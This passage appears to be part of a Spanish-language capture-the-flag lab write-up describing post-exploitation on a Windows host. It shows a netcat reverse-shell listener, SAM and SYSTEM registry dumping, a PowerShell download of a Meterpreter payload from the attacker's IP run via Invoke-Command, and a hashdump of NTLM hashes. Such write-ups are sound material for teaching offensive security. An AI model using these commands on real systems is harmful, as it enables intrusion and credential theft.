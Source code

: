 ```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.145] 49879
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Users\jmorgan\Documents>
```

Este usuario es miembro de los Administradores locales de la máquina

```null
C:\>net localgroup Administrators
net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
ACUTE\Domain Admins
ACUTE\jmorgan
Administrator
The command completed successfully.
```

Me puedo dumpear la SAM

```null
C:\Temp>reg save HKLM\SAM sam.bak
reg save HKLM\SAM sam.bak
The operation completed successfully.

C:\Temp>reg save HKLM\SYSTEM system.bak
reg save HKLM\SYSTEM system.bak
The operation completed successfully.
```

Pero entra en conflicto tranferirla por SMB. Se podría tratar de crear un nuevo usuario, modificar el ```LocalAccountTokenFilterPolicy``` y crear una regla que me abra todos los puertos a mi equipo, pero como había utilizado de antes ```Metasploit```, puedo volver a hacerlo para dumperar la SAM

```null
PS C:\Utils> del shell.exe
PS C:\Utils> iwr -uri http://10.10.16.9/meter.exe -o shell.exe
PS C:\Utils> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { C:\Users\imonks\Desktop\wm.ps1 }
```

```null
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
```
